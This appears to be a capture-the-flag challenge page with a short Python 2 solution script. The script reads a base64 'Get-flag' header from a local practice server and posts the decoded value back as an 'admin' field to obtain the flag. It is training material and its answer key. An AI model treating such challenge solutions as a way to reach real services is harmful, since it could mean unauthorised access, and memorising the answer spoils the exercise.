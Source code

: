 #### Goals
 * Try to find the flag

#### Server Address
 * http://localhost:10007/

#### Solution
```python
#!/usr/bin/env python

import requests
import base64
import time
import sys

if len(sys.argv) != 3:
	print "Usage: "
	print "\tpython %s [HOST] [PORT]" % (sys.argv[0])
	exit(1)

host = sys.argv[1]
port = int(sys.argv[2])

url = "http://%s:%d/" % (host, port)

session = requests.Session()
response = session.get(url)
get_flag = base64.b64decode(response.headers["Get-flag"])
data = {
    "admin": get_flag,
}
print session.post(url, data=data).text
```

#### Writeups
 * TODO
